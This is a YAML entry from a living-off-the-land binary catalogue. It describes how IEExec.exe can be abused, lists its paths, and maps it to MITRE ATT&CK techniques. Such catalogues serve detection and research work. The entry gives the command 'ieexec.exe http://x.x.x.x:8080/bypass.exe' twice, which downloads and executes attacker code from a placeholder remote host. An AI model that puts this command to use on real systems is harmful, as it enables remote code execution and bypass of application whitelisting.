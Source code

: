 ```yaml
---
Name: Ieexec.exe
Description: The IEExec.exe application is an undocumented Microsoft .NET Framework application that is included with the .NET Framework. You can use the IEExec.exe application as a host to run other managed applications that you start by using a URL.
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: ieexec.exe http://x.x.x.x:8080/bypass.exe
    Description: Downloads and executes bypass.exe from the remote server.
    Usecase: Download and run attacker code from remote location
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: ieexec.exe http://x.x.x.x:8080/bypass.exe
    Description: Downloads and executes bypass.exe from the remote server.
    Usecase: Download and run attacker code from remote location
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\Microsoft.NET\Framework\v2.0.50727\ieexec.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v2.0.50727\ieexec.exe
Code_Sample:
  - Code:
Detection:
  - IOC:
Resources:
  - Link: https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/
Acknowledgement:
  - Person: Casey Smith
    Handle: "@subtee"
---
```

